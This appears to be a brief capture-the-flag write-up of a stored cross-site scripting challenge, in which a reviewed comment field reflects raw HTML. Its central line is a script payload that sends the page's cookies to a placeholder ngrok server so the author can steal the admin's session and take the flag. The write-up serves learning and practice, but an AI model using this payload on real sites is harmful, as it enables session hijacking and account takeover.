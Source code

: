 #xss #cookie #cross-site
The main page is a login page that looks like this:
![[Pasted image 20230622234332.png]]

By signing up we get this post and a bar that we can comment to:
![[Pasted image 20230622234511.png]]

the comment needs to be reviewed it says when we comment:
![[Pasted image 20230622234859.png]]

it is also reflected in the source code as it is:
![[Pasted image 20230622234936.png]]

can we try html to it?
![[Pasted image 20230622235024.png]]
and it works!!!!! 
so basically what I think is to get admin level cookie or something from the server via XSS , the actual impact of XSS what we can do is to be done here
so let's fire up our server and redirect the request to it:
first we start our python web server locally and then tunnel it via ngrok:
the url looks like this:
`<script>new image().src='https://your-ngrok-server-link.ngrok-free.app?c='+document.cookie</script>`

![[Pasted image 20230623001239.png]]
and we get the cookie 
the first one is ours the 2nd one is of admin
and by setting the cookie we get the flag:
![[Pasted image 20230623001121.png]]